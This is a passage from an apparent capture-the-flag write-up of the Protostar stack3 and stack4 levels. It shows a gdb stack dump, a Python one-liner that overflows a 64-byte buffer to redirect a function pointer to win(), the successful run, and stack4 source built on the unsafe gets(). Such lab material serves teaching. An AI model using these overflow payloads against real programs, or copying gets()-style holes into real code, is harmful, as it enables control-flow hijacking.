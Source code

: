 ```
20        in stack3/stack3.c
(gdb) x/24wx $esp
0xbffff750:        0xbffff76c        0x00000001        0xb7fff8f8        0xb7f0186e
0xbffff760:        0xb7fd7ff4        0xb7ec6165        0xbffff778        0x41414141
0xbffff770:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff780:        0x41414141        0x41414141        0xbfff0041        0x080484a9
0xbffff790:        0xb7fd8304        0xb7fd7ff4        0x08048490        0xbffff7b8
0xbffff7a0:        0xb7ec6365        0xb7ff1040        0x0804849b        0x00000000
```

The value 0x00000000 is the one that is to be overwritten. The number of A's required to overwrite it is 16*4 plus the value that will overwrite. The value to be overwritten can be printed into a file and redirected. The value can be obtained by examining the win function.

```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Therefore, redirecting the value to a file and redirecting that to gdb run.

```
user@protostar:/opt/protostar/bin$ python -c 'print "A"*16*4 + "\\\\x24\\\\x84\\\\x04\\\\x08"' > /tmp/inputfile
user@protostar:/opt/protostar/bin$ gdb ./stack3
GNU gdb (GDB) 7.0.1-debian
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) r < /tmp/inputfile
Starting program: /opt/protostar/bin/stack3 < /tmp/inputfile
calling function pointer, jumping to 0x08048424
code flow successfully changed
Program exited with code 037.
```

Therefore, the given function was called using an overflow.

---

## Stack 4

The code for this level is -

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void win()
{
    printf("code flow successfully changed\\\\n");
}
int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```
